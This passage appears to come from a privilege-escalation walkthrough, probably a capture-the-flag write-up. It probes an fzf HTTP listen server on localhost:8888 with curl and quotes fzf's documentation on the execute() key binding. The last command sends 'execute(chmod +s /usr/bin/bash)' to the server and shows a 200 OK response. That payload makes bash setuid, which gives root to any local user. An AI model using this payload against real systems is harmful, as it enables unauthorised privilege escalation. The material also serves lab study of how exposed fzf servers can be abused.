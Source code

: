`curl http://localhost:8888/ -v`:
```
* Host localhost:8888 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8888...
* Connected to localhost (::1) port 8888
> GET / HTTP/1.1
> Host: localhost:8888
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 400 Bad Request
< Content-Length: 23
< 
invalid request method ←
* Connection #0 to host localhost left intact
```

`curl http://localhost:8888/ -d 'TEST'`:
```
unknown action: TEST ←
```

<div>
	<img src="./assets/logo_github.png" alt="GitHub Logo" width="16" height="auto">
	<span style="color: white; font-size: 110%;"><strong>GitHub</strong></span>
</div>

[fzf](https://github.com/junegunn/fzf?tab=readme-ov-file#executing-external-programs)

[**#Executing external programs**]

You can set up key bindings for starting external processes without leaving fzf (`execute`, `execute-silent`).
```shell
# Press F1 to open the file with less without leaving fzf
# Press CTRL-Y to copy the line to clipboard and aborts fzf (requires pbcopy)
fzf --bind 'f1:execute(less -f {}),ctrl-y:execute-silent(echo {} | pbcopy)+abort'
```

`curl http://localhost:8888/ -d 'execute(chmod +s /usr/bin/bash)' -v`:
```
* Host localhost:8888 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8888...
* Connected to localhost (::1) port 8888
> POST / HTTP/1.1
> Host: localhost:8888
> User-Agent: curl/8.8.0
> Accept: */*
> Content-Length: 31
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 31 bytes ←
< HTTP/1.1 200 OK ←
* Connection #0 to host localhost left intact
```
